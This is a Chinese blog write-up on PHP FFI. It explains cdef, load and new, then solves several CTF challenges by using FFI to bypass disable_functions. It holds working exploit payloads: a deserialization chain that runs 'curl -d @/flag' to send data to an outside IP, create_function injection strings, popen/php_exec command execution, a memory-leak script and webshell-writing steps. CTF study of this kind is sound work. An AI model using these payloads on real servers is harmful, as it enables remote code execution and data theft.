







+++
title = "php中不出网的FFI"
slug = "php-non-outbound-ffi"
description = ""
date = "2024-11-08T09:27:18"
lastmod = "2024-11-08T09:27:18"
image = ""
license = ""
categories = ["talk"]
tags = ["php", "姿势"]
+++

# 0x01 前言

我知道这个姿势是在暑假的8月份好像是极客大挑战的RCE5？，一直耽搁着到现在来看看

# 0x02 question

## 了解

当PHP7.4降临，与他一同前来的还有一个强大拓展`PHP FFI`

> 它允许PHP代码调用C语言库中的函数，而无需编写和编译传统的PHP扩展。通过FFI，开发者可以直接在PHP中编写与C库的接口（bindings），而不必使用C语言编写扩展。这极大地简化了扩展PHP功能的过程，并使其更灵活。
>
> For PHP, FFI opens a way to write PHP extensions and bindings to C libraries in pure PHP.

1. **加载C库**：可以通过FFI直接加载共享库（如`.so`或`.dll`文件）。
2. **定义C函数和类型**：在PHP中以字符串的形式定义C语言的函数、结构体、类型等。
3. **调用C函数**：一旦定义了C函数，就可以像调用PHP函数一样在PHP中调用它们

### FFI::**cdef**



看不懂啊，那我们看demo，以师傅的例子来讲，我们用PHP的`curl`，和`libcurl`来进行对比

首先我们修改`ini`文件

```
extension=ffi
ffi.enable=true
```

然后写demo就发现有很多问题，比如说找不到什么的，然后查了查，只有Linux才行

接下来放出源码

```php
<?php

$url = "https://www.laruence.com/2020/03/11/5475.html";
$ch = curl_init();

curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);

curl_exec($ch);

curl_close($ch);
```

这是不使用FFI的情况

那么如果使用FFI的话

curl.php

```php
<?php
const CURLOPT_URL = 10002;
const CURLOPT_SSL_VERIFYPEER = 64;

$libcurl = FFI::cdef(<<<CTYPE
void *curl_easy_init();
int curl_easy_setopt(void *curl, int option, ...);
int curl_easy_perform(void *curl);
void curl_easy_cleanup(void *handle);
CTYPE
    , "libcurl.so"
);
```

test.php

```php
<?php
global $libcurl;
require "curl.php";

$url = "https://www.laruence.com/2020/03/11/5475.html";

$ch = $libcurl->curl_easy_init();
$libcurl->curl_easy_setopt($ch, CURLOPT_URL, $url);
$libcurl->curl_easy_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);

$libcurl->curl_easy_perform($ch);

$libcurl->curl_easy_cleanup($ch);
```

我们主要是看`curl.php`，这里的话使用了`FFI::cdef`来定义调用函数的原参数式子

```php
FFI::cdef(string $c_definition, string $library)
/*$c_definition: 这是一个字符串，包含 C 语言函数和类型的声明。可以使用 heredoc 语法来定义多行字符串，使得代码更加清晰。
$library: 这是一个字符串，表示要加载的共享库的名称（例如 libcurl.so 或者任何其他共享库的路径）。
```

```php
$libcurl = FFI::cdef(<<<CTYPE
void *curl_easy_init();
int curl_easy_setopt(void *curl, int option, ...);
int curl_easy_perform(void *curl);
void curl_easy_cleanup(void *handle);
CTYPE
    , "libcurl.so"
);
```

在 PHP 中，通过使用 `<<<` 语法，可以定义所谓的 "heredoc" 字符串，`CTYPE` 就是这个 heredoc 的标识符。所以这里我们是从`libcurl.so`里面导入了四个函数

### FFI::load



那么我们接着实验如果要将结果写入文件的话，我们可以写两个文件头来进行这样的操作

安装个C语言在vps避免出现问题

```
sudo apt install gcc
sudo apt install g++
```

file.h

```c
void *fopen(char *filename, char *mode);
void fclose(void * fp);
```

curl.h

```c
#define FFI_LIB "libcurl.so"
 
void *curl_easy_init();
int curl_easy_setopt(void *curl, int option, ...);
int curl_easy_perform(void *curl);
void curl_easy_cleanup(CURL *handle);
```

```php
<?php
const CURLOPT_URL = 10002;
const CURLOPT_SSL_VERIFYPEER = 64;
const CURLOPT_WRITEDATA = 10001;
 
$libc = FFI::load("file.h");
$libcurl = FFI::load("curl.h");
 
$url = "https://www.laruence.com/2020/03/11/5475.html";
$tmpfile = "/tmp/tmpfile.out";
 
$ch = $libcurl->curl_easy_init();
$fp = $libc->fopen($tmpfile, "a");
 
$libcurl->curl_easy_setopt($ch, CURLOPT_URL, $url);
$libcurl->curl_easy_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
$libcurl->curl_easy_setopt($ch, CURLOPT_WRITEDATA, $fp);
$libcurl->curl_easy_perform($ch);
 
$libcurl->curl_easy_cleanup($ch);
 
$libc->fclose($fp);
 
$ret = file_get_contents($tmpfile);
@unlink($tmpfile);
```

### FFI::new



`FFI::new` 是 PHP FFI 提供的方法，用于在内存中创建一个新的 C 数据类型的实例。它的基本语法是：

```php
FFI::new("type", [bool $owned = true], [bool $persistent = false])
```

- `"type"`: 这是一个字符串，表示你想要创建的 C 数据类型，例如 `"int"`、`"float"`、`"char *"` 等。
- `$owned`: 可选参数，默认为 `true`。如果为 `true`，那么这个内存块会在其 PHP 变量被销毁时释放。
- `$persistent`: 可选参数，默认为 `false`。如果为 `true`，这个内存块在请求结束时不会被释放。

那么写个demo

```php
root@dkhkKySag1YyfK:/opt/test# php test2.php
PHP Warning:  Module 'FFI' already loaded in Unknown on line 0
int(0)
int(2)
int(5)
```

这里只简单说说这三种，还有很多师傅们自己拓展哦

## 利用姿势

### [RCTF 2019]Nextphp

```php
<?php
if (isset($_GET['a'])) {
    eval($_GET['a']);
} else {
    show_source(__FILE__);
}
```

进来看到是这个，我们先写个木马进去，链接`antsword`

```
?a=file_put_contents("shell.php",'木马内容自己写');
```

进来之后拿到了这个`preload.php`

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'print_r',
        'arg' => '1'
    ];

    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }

    public function __serialize(): array {
        return $this->data;
    }

    public function __unserialize(array $data) {
        array_merge($this->data, $data);
        $this->run();
    }

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __get ($key) {
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        throw new \Exception('No implemented');
    }
}
```

> PHP Serializable是自定义序列化的接口。实现此接口的类将不再支持__sleep()和__wakeup()。
>
> 当类的实例对象被序列化时将自动调用serialize方法，并且不会调用 __construct()或有其他影响。如果对象实现理Serialize接口，接口的serialize()方法将被忽略，并使用__serialize()代替。
>
> 当类的实例对象被反序列化时，将调用unserialize()方法，并且不执行__destruct()。如果对象实现理Serialize接口，接口的unserialize()方法将被忽略，并使用__unserialize()代替。

我们先调试一下序列化的情况可以看到直接就走到了`__serialize()`



就跳出来了，再看看反序列化的情况，可以看到是直接跳到了`__unserialize()`



此时我们如果注释这两个方法的话，进行调试看看呢，可以看到就是走的`serialize`和`unserialize`，嗯，那么我们看看怎么利用FFI来打这个，首先要触发反序列化，那么我们就要走`unserialize`，那么写个`exp`

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(const char *command);'
    ];

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data=unserialize($payload);
    }
}
$a=new A();
echo serialize($a);
```

然后我们再调用`__serialize()`方法来返回执行结果，这里是外带flag，payload是这样子

```
?a=$a=unserialize('C:1:"A":95:{a:3:{s:3:"ret";N;s:4:"func";s:9:"FFI::cdef";s:3:"arg";s:32:"int system(const char *command);";}}')->__serialize()['ret']->system('curl -d @/flag 27.25.151.48:9999');
```

可能晕的地方就是命令执行这里其实

```php
['ret']->system('curl -d @/flag 27.25.151.48:9999');
# 这个和下面是一样的
$ffi = FFI::cdef("int system(const char *command);");
$ffi->system("curl -d @/flag 27.25.151.48:8888");
```

### TCTF 2020 easyphp

进来之后还是经典的东西

```php
<?php
if(isset($_GEt['rh'])){
    eval($_GEt['rh']);
}else{
    show_source(__FILE__);
}
```

可以直接phpinfo看到一些信息但是都不重要重要的是，我们先写马一样的方法，然后链接antsword，这里我们也得到了信息是**php7.4.5**

```php
$file_list = array();
$it = new DirectoryIterator("glob:///*");
foreach ($it as $f){
$file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///.*");
foreach ($it as $f){
$file_list[] = $f->__toString();
}
sort($file_list);
foreach ($file_list as $f){
    echo $f;
}
```

我们先利用原生类读取根目录发现一个`flag.h`和`flag.so`，那么看了之前的知识点很容易想到用FFI来加载h文件达到目的，进antsword看看h文件里面写了什么

```
var_dump(file_get_contents("/flag.h"));
```



直接调用就可以了，写个exp

```php
$ffi=FFI::load("/flag.h");
$a=$ffi->flag_fUn3t1on_fFi();
var_dump(FFI::string($a));
```

就好了

### noeasyphp(revenge)

不过刚才那一道好像是非预期了，不会让我们那么容易拿到flag

还是写马然后看目录

```
var_dump(scandir('glob:///*'));
```

然后拿到了`flag.h`和`flag.so`，但是没有函数让我们看函数名了

查找FFI官方文档会发现有很多与内存有很多相关的函数，我们这里使用内存泄露来获取函数名

exp

```python

import requests
 
url = ""
params = {"rh":'''
try {
$ffi=FFI::load("/flag.h");
//get flag
//$a = $ffi->flag_wAt3_uP_apA3H1();
//for($i = 0; $i < 128; $i++){
echo $a[$i];
//}
$a = $ffi->new("char[8]", false);
$a[0] = 'f';
$a[1] = 'l';
$a[2] = 'a';
$a[3] = 'g';
$a[4] = 'f';
$a[5] = 'l';
$a[6] = 'a';
$a[7] = 'g';
$b = $ffi->new("char[8]", false);
$b[0] = 'f';
$b[1] = 'l';
$b[2] = 'a';
$b[3] = 'g';
$newa = $ffi->cast("void*", $a);
var_dump($newa);
$newb = $ffi->cast("void*", $b);
var_dump($newb);
$addr_of_a = FFI::new("unsigned long long");
FFI::memcpy($addr_of_a, FFI::addr($newa), 8);
var_dump($addr_of_a);
$leak = FFI::new(FFI::arrayType($ffi->type('char'), [102400]), false);
FFI::memcpy($leak, $newa-0x20000, 102400);
$tmp = FFI::string($leak,102400);
var_dump($tmp);
//var_dump($leak);
//$leak[0] = 0xdeadbeef;
//$leak[1] = 0x61616161;
//var_dump($a);
//FFI::memcpy($newa-0x8, $leak, 128*8);
//var_dump($a);
//var_dump(777);
} catch (FFI\Exception $ex) {
echo $ex->getMessage(), PHP_EOL;
}
var_dump(1);
'''}
res = requests.get(url=url,params=params)
print((res.text).encode("utf-8"))
```

内存处理的代码是这里

```php
$addr_of_a = FFI::new("unsigned long long");
FFI::memcpy($addr_of_a, FFI::addr($newa), 8);
var_dump($addr_of_a);

$leak = FFI::new(FFI::arrayType($ffi->type('char'), [102400]), false);
FFI::memcpy($leak, $newa-0x20000, 102400);
$tmp = FFI::string($leak, 102400);
var_dump($tmp);
```

看不懂，相当于就是把地址内容复制过去了然后输出，再创建一个大小为 102400 字节的字符数组 `$leak`，并尝试从 `$newa` 偏移 `0x20000` 字节的地址处复制到 `$leak`，然后就泄露了？

```
$ffi=FFI::load("/flag.h");
$a=$ffi->flag_wAt3_uP_apA3H1();
var_dump(FFI::string($a));
```

### [极客大挑战 2020] FighterFightsInvincibly

这里进去直接就可以拿到源码，一样的我们链接antsword

```
<!-- $_REQUEST['fighter']($_REQUEST['fights'],$_REQUEST['invincibly']); -->
```

这里很明显的一个`create_function`注入

```
fighter=create_function&fights=&invincibly=;}phpinfo();/*
```



嗯宣那就链接就行，然后这里是不出网的，我们寻找C语言里面能够执行命令的并且不在disable里面的

```
php_exec
popen
```

**popen**是C语言的

**php_exec**是php源码中的一个函数，当type为3时为`passthru`，为1时为`system`

```php
<?php

$ffi=FFI::cdef("void *popen(char*,char*);void pclose(void*);int fgetc(void*);","libc.so.6");
$a=ffi->popen("ls /","r");
$b="";
while (($c=$ffi->fgetc($a)) != -1){
    $b.=str_pad(strval(dechex($c)),2,"0",0);
}
$ffi->pclose($a);
echo hex2bin($b);
```

```
fighter=create_function&fights=&invincibly=;}$ffi=FFI::cdef("void *popen(char*,char*);void pclose(void*);int fgetc(void*);","libc.so.6");$a=$ffi->popen("ls /","r");$b="";while(($c=$ffi->fgetc($a))!=-1){$b.=str_pad(dechex($c),2,"0",STR_PAD_LEFT);} $ffi->pclose($a);echo hex2bin($b);/*
```

成功了，还有一个也写写exp

```php
<?php
$ffi=FFI::cdef("int php_exec(int type,char *cmd);");
$ffi->php_exec(3,"ls /");
```

```
fighter=create_function&fights=&invincibly=;}$ffi=FFI::cdef("int php_exec(int type,char *cmd);"); $ffi->php_exec(3,"ls /");/*
```

# 0x03 小结

好玩好用，不过这个要对函数都比较熟悉，如果函数都不知道用那个也是白给
